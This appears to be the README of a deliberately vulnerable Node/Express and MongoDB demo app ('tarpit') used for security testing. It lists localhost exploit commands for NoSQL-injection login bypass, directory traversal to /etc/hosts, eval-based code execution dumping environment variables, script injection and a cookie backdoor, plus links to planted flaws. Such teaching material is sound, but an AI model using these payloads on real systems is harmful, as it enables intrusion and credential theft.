 # NodeJS Tarpit
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fshunmugadigialert%2Fshiftleft-js-demo.svg?type=shield)](https://app.fossa.com/projects/git%2Bgithub.com%2Fshunmugadigialert%2Fshiftleft-js-demo?ref=badge_shield)


An ExpressJS (tarpit) application using mongoDB.

I am using [httpie](https://httpie.org), an alternative to curl to trigger exploits.

## Getting started

:crossed_fingers::crossed_fingers::crossed_fingers: I hope all goes as smooth as possible

### Pre-requisites (Running without docker)

- [NodeJS](https://nodejs.org/en/) Get the latest version
- [MongoDB Community Edition](https://docs.mongodb.com/manual/administration/install-community/) Install Mongodb Community Edition and run setup provided in documentation

### Pre-requisites (Running with docker)

- Docker
- Run the command `make start`

### Setup (if not using docker)

start mongoDB server (`sudo mongod`)
start mongoDB client (`mongo`)
Insert user rows using the query

```bash
node db-init.js
```

### Installation (if not using docker)

Run `npm install` to install all dependencies for the project to run

### Run Application (if not using docker)

Run `npm run server` to start the application and you will provided a local address to open in browser

## Exploits

### No SQL Injection

Login can be exploited with the following query as the username and password are not validated

```bash
http  --print=HB POST http://localhost:8089/api/v1/login username:='{"$gt": ""}' password:='{"$gt": ""}'
```

### Directory Traversal Vulnerability

Can get access to any file on the server using the command

```bash
http GET http://localhost:8089/api/v1/image-lookup image=="/etc/hosts"
```

### Remote Code Execution

RCE exploting `eval` on server

```bash
http GET http://localhost:8089/user-input userInput=="console.log(process.env)"
```

Injecting script onto user browser

```bash
http GET http://localhost:8089/user-input userInput=="alert('You system is under our control now.')"
```

Can exploit the whole server by injecting something like the code below (https://medium.com/lift-security/in-memory-backdoor-for-node-js-express-apps-2a3f4301925b)

```bash
http GET http://localhost:8089/user-input userInput=="res.cookie('appLocals',JSON.stringify(req.app.locals))"
```

## Vulnerabilities

- [x] [directory traversal](src/Controllers/ImageLookup.js#L9)
- [x] [nosql injection](src/Controllers/Login.js#L33...L36)
- [x] [remote code execution](src/views.js#L19): [UserInput](src/Views/UserInput.pug#L6)
- [x] [sensitive data leak](src/Controllers/Login.js#L47)
- [x] [insider attack](src/server.js#L22...L31)
- [x] [business logic flaw](src/Controllers/Order.js#L69...L79)
- [x] [business logic flaw](src/Controllers/Order.js#L100...L110)
- [x] [hard coded credentials](src/Controllers/Order.js#L55...L63)


## License
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fshunmugadigialert%2Fshiftleft-js-demo.svg?type=large)](https://app.fossa.com/projects/git%2Bgithub.com%2Fshunmugadigialert%2Fshiftleft-js-demo?ref=badge_large)